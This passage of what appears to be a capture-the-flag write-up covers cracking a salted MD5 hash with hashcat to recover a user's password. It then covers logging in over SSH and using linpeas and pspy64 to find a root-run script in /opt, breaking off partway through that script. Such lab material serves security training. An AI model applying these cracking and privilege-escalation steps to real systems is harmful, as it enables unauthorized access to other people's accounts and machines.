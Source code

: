 We can decode Bill's password, just remember to add Salt!

```
13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym    
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 20 (md5($salt.$pass))
Hash.Target......: 13edad4932da9dbb57d9cd15b66ed104:NaCl
```

We can login via SSH as `bill`.

# Privilege Escalation to root
I've ran `linpeas` as usual for quick wins and any out-of-ordinary findings and it showed:

```
╔══════════╣ Unexpected in /opt (usually empty)
total 12
drwxr-xr-x  2 root root 4096 Jul 14 16:06 .
drwxr-xr-x 19 root root 4096 Jan  2 04:50 ..
-rwxr-xr-x  1 root root 1806 Jul 14 16:05 renew_cert.sh  
```

When running `pspy64` we can see that script is being called by `root`. (`pspy64 -r /tmp -r /opt -r /home -pf -i 1000`)

![picture 13](/assets/images/af8c0b7c068aedd5c62128d310a6565f841924ec2c356b71bce2c2d547434940.png)  

This is `/opt/renew.sh` that's being ran.

```sh
#!/bin/bash

if [ "$#" -ne 1 ] || [ $1 == "-h" ] || [ $1 == "--help" ] || [ $1 == "help" ]; then
    echo "Usage: $0 certificate.crt";
    exit 0;
fi

if [ -f $1 ]; then

    openssl x509 -in $1 -noout -checkend 86400 > /dev/null

    if [ $? -eq 0 ]; then
        echo "No need to renew yet.";
        exit 1;
```